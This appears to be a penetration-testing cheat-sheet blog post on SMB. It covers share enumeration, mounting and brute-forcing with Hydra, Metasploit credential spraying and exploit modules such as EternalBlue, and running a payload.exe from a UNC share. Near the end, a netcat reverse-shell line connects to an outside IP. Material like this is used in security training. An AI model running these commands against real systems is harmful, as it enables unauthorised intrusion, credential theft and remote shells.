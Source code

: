 ```yaml
---
layout: post
title: 'Working With SMB'
date: '2022-05-21'
description: 'A look at interacting with SMB Shares using the Windows Command line and using various tools available within Kali Linux.'
coverimage: Working_With_SMB.jpg
tags: hydra, mount, nmblookup
published: true
posttype: article
categories: blog
---
```

## Working with SMB

### Windows

Windows commands for working with our share

```
net use \\10.1.1.99\IPC$ /user:evilsmb
net view 10.1.1.99
dir \\10.1.1.99\evilshare
copy \\10.1.1.99\evilshare\29.jpg mypic.jpg
```

Anonymous shares can be viewed without authenticating to the IPC$ share.

```
net view 10.1.1.99
```

Mount a share

```
net use Y \\10.1.1.99\myshare  /user:eviltest
cd /d Y:\
dir
```

Executing files from SMB. Because of the way Windows treats UNC paths, it’s possible to just execute our binary directly from the SMB share without even needing to copy it over first. Just run the executable as if it were already local and the payload will fire:

```
C:\Users\evilsaint\Desktop> \\10.1.1.254\sharefolder\payload.exe
```

### Linux

Listing SMB shares with username and password
```
smbclient -L 10.1.1.99 -U username%password
```

Listing SMB Shares with anonymous connection
```
smbclient -N -L 10.1.1.99
```

Connecting to SMB Share with username and password
```
smbclient //10.1.1.99/myshare -U eviltest%evilpass
```

Connecting to SMB Share without username and password
```
smbclient //10.1.1.99/myshare
```

# SMB

### SMB Shares

List Shares of computers in Domain
```
Get-NetComputer -DomainController 172.20.50.254 | Get-NetShare
```

# Bruteforcing SMB with Hydra

Comma seperated username and passwords
```
hydra -v -V -C user-pass.txt 10.1.18.2 smb
```

not using comma separated
```
hydra -L users.txt -e ns 172.24.2.97 smb
```

# SMB

## NetBIOS

Find all hosts responding to netbios, the `q` supresses the headers
```
nbtscan -q 10.11.1.0\24
```

Look at more detail for a single host either by IP or hostname
```
nmblookup -A 10.50.1.254
nmblookup -S DC01
```

## Crackmapexec

```
crackmapexec smb 10.50.1.0\24
```

## NMAP

Run all Nmap SMB Checks

```
nmap -sS -p 445 -n --open --script=smb-vuln* <ip>
```

Exploit vulnerabilities with metasploit

| Vulnerability | Metasploit Module |
| --- | --- |
| smb-vuln-ms06-025  | exploit06_025_rasmans_reg |
| smb-vuln-ms07-029  | exploit07_029_msdns_zonename |
| smb-vuln-ms08-067  | exploit08_067_netapi |
| smb-vuln-cve2009-3103  | exploit09_050_smb2_negotiate_func_index |
| smb-vuln-ms17-010 | exploit17_010_eternalblue |

## SMB login (spray credentials)

```
msf > use auxiliary/scanner/smb/smb_login
show options
verbose off
set password to the obtained local admin password
remove user as pass
```

## Enum4linux

Enumerate SMB

```
enum4linux -a -u Administrator -p Passw0rd! 10.50.1.15
```

## SMB Client

Listing SMB shares with username and password
```
smbclient -L 10.1.1.99 -U username%password
```

Listing SMB Shares with anonymous connection
```
smbclient -N -L 10.1.1.99
```

Connecting to SMB Share with username and password
```
smbclient //10.1.1.99/myshare -U eviltest%evilpass
```

Connecting to SMB Share without username and password
```
smbclient //10.1.1.99/myshare
```

We can use smbclient over proxychains
```
proxychains smbclient '//192.168.1.230/myshare' -U 'MARVEL.LAB\Administrator%password123!'
```

We can tar up files or folders with smbclient
```
smbclient //10.129.121.21/guest -Tc test.tar secret.txt
smbclient //10.129.121.21/guest -Tc test.tar /tmp
```

## Mount Share

Mount SMB Share
```
mount -t  \\X.X.X.X\c$ \mnt\remote\ -o username=user,password=pass,rw
```

To get a shell back from an SMB share.
```
logon "\=`nc 10.11.0.233 443 -e \bin\bash`"
```

## SMBMap

Not very stealthy but can execute a command
```
python /usr/share/smbmap/smbmap.py -H 127.0.0.1 -u user -p pass -x 'net group "domain admins" \domain'
```

## SMBTree

SMB Tree can map out all smb shares in the neighbourhood.
```
smbtree
```